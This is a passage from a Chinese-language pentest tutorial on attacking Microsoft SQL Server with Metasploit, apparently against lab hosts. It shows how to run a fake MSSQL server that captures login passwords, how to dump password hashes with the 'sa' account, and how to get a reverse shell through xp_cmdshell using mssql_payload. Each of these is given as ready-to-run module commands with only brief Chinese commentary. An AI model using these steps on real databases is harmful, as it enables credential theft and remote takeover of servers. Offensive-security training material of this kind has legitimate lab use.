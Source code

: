 ### 捕获 mssql 登录

创建一个虚假 mssql 服务器，捕获登录时的账号密码

```php
use auxiliary/server/capture/mssql
set srvhost 192.168.3.133
exploit
```

尝试登录虚假服务器

```php
sqsh -S 192.168.3.133 -U sa -P "admin"
```

### Mssql Hash 转储

```php
use auxiliary/scanner/mssql/mssql_hashdump
set rhosts 192.168.3.130
set username sa
set password admin
exploit
```

![image.png](assets/1706232584-2d488c7b85939c8cf37398d1a1a0f492.png)

### 通过 xp\_cmdshell 反弹 shell

```php
use exploit/windows/mssql/mssql_payload
set rhosts 192.168.3.130
set username sa
set password admin
set method old
exploit
```

由于 mssql 服务器的系统版本较低，因此 method 选择为 old，否则可能反弹 Shell 失败  
